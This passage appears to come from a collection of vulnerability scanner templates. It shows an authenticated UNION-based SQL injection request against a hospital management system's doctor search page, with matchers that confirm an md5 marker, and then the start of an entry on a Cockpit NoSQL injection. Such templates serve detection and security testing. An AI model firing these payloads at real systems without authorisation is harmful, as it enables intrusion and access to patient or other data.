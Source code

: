 - severity - high
- tags - cve2020,hms,cms,sqli,authenticated,edb,cve

## Requests

### Step - 1

```
POST /hospital/hms/doctor/index.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

username={{username}}password={{password}}&submit=&submit=

```

### Step - 2

```
POST /hospital/hms/doctor/search.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

searchdata='+UNION+ALL+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(CONCAT(md5({{num}}),1),2),NULL--+PqeG&search=

```

### Matchers

**Type - word**

- part - body
- words
  1. {{md5(num)}}

**Type - status**

- status
  1. 200

---

# Agentejo Cockpit \< 0.11.2 - NoSQL Injection

## Description

- Agentejo Cockpit before 0.11.2 allows NoSQL injection via the Controller/Auth.php check function. The $eq operator matches documents where the value of a field equals the specified value.
- severity - critical
- tags - cve,cve2020,nosqli,sqli,cockpit,injection

## Requests

